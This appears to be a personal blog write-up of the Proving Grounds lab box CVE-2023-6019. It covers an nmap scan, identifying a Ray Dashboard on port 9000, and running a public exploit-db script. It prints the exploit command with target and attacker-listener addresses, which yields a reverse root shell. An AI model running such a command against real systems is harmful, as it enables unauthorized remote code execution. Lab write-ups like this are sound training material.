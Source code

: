 ```yaml
---
layout: writeup
title: CVE-2023-6019 - Proving Grounds
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the CVE-2023-6019 Box from Proving Grounds
image: # /assets/images/CVE-2023-6019/CVE-2023-6019.png
fig-caption: # Add figcaption (optional)
tags: [Ray OS]
---
```


Here is a writeup for a [Proving Grounds](https://www.offsec.com/labs/) box called CVE-2023-6019, and it is rated Intermediate by Proving Grounds and Easy by the community. I haven't seen it on any lists, it just says new so we'll see how it goes. As usual, we get started with an nmap scan, but I'm using my personal nmap script called [vbnmap](https://github.com/pentestpop/verybasicenum/blob/main/vbnmap.sh). 

```
PORT     STATE SERVICE
22/tcp   open  ssh
9000/tcp open  cslistener
```

When I visit port 9000, we can see this page: 

![CVE-2023-6019_1.png](/assets/images/CVE-2023-6019/CVE-2023-6019_1.png){: .responsive-image}

I don't exactly see anything that sticks out here, but the tab seems to suggest a service called Ray Dashboard, which is confirmed by a link to the docs which takes us to [docs.ray.io](https://docs.ray.io/en/latest/ray-core/ray-dashboard.html).

![CVE-2023-6019_2.png](/assets/images/CVE-2023-6019/CVE-2023-6019_2.png){: .responsive-image}

We can also just google the CVE the box is titled after which will ultimately lead us to [this exploit](https://www.exploit-db.com/exploits/51978) on exploit-db for a start. Seems simply enough. I read through the exploit, and it seems to require 4 arguments in this case: target, port, host (my kali IP), and listening port. 

![CVE-2023-6019_3.png](/assets/images/CVE-2023-6019/CVE-2023-6019_3.png){: .responsive-image}

I change the copy the exploit from searchsploit and change the extension from `.txt` to `.py` and run`python3 51978.py -t 192.168.185.37 -p 9000 -L 192.168.45.231 -P 445`. 

![CVE-2023-6019_4.png](/assets/images/CVE-2023-6019/CVE-2023-6019_4.png){: .responsive-image}

And we get a root shell. 

![CVE-2023-6019_5.png](/assets/images/CVE-2023-6019/CVE-2023-6019_5.png){: .responsive-image}

That has to be the easiest box I've ever done on any service. I'm a bit confused as to how the box could have been rated Intermediate by anyone. Maybe the exploit wasn't on exploit-db when the box was created? Not sure, but either way that was quick. 

### Remediation Steps
1. Patch the Ray OS instance. 

### Lessons Learned
Whole lotta nada in this case. 
